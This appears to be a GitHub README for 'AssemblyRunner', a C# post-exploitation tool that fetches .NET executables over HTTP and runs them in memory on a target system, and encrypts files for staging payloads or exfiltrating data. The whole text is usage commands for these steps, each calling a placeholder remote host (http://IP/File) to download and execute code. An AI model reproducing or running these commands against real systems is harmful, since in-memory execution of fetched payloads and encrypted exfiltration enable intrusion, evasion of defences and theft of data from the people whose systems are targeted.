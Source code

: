 # AssemblyRunner

C# Binary that can encrypt files, decrypt files, as well as retreive files over HTTP and execute said files in-memory on a target system.

Overall goal was to be able to encrypt payload on remote system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory

Functionality

.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run
AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run
AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt
AssemblyRunner.exe -enc PASSWORD http://IP/File
--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt
AssemblyRunner.exe -file PASSWORD FILE/TO/ENC
--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt
AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
